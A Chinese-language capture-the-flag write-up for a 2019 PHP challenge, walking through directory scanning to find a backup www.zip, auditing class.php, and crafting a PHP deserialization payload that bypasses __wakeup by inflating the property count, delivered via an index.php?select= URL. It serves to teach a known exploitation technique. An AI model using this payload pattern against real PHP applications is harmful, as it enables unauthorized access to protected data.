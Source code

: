 #极客大挑战 2019php

观察页面，发现页面有写有备份网站的文件，然后就用dirsearch和御剑扫描域名的目录

发现后缀文件名为index.php和www.zip时，状态码为200

因此，在域名后加www.zip的目录信息

http://d94bb716-8ba6-4774-b46f-abb523abfa71.node3.buuoj.cn/www.zip

可以下载压缩包

打开压缩包后发现几个文件，然后逐个打开，发现class.php里的php代码

审计代码

<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){ #创建的时候被调用
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';  #将guest赋值给$username
    }

    function __destruct(){  #销毁时调用
        if ($this->password != 100) {  #判断password是否等于100
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') { #判断username是否是admin
            global $flag;  #对外部$flag同名引用
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>

通过代码审计可知只要username=admin且password=100，则可以显示出flag，但是因为有__wakeup()这个函数，所以输入的username会变成guest
而__wakeup()函数，如果表示属性个数的值大于真实属性个数的值，那么就会绕过__wakeup()函数。又因为成员变量使用的是private这个声明私有字段
所以需要将成员变量的值放在new Name()的括号中，且序列化时，类名和字段名的前面都会加上\0的前缀

构造exp得到序列化后的数值

<?php

class Name{
    private $username;
    private $password;

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
$a=new Name('admin',100);
echo serialize($a);
?>


得到的结果是

O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}

需要在类名和字段名前面加上\0的前缀，同时改变属性的数值，将2改为3

O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}

然后构造payload

index.php?select=O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}


便可得到flag